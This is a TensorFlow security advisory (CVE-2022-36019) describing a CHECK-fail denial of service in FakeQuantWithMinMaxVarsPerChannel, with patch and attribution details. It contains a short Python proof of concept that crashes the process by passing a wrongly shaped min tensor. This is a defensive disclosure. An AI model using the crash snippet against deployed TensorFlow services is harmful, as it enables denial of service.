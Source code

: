 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-106.md
## TFSA-2022-106: `CHECK` fail in `FakeQuantWithMinMaxVarsPerChannel`

### CVE Number
CVE-2022-36019

### Impact
If `FakeQuantWithMinMaxVarsPerChannel` is given `min` or `max` tensors of a rank other than one, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

num_bits = 8
narrow_range = False
inputs = tf.constant(0, shape=[4], dtype=tf.float32)
min = tf.constant([], shape=[4,0,0], dtype=tf.float32)
max = tf.constant(0, shape=[4], dtype=tf.float32)
tf.raw_ops.FakeQuantWithMinMaxVarsPerChannel(inputs=inputs, min=min, max=max, num_bits=num_bits, narrow_range=narrow_range)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
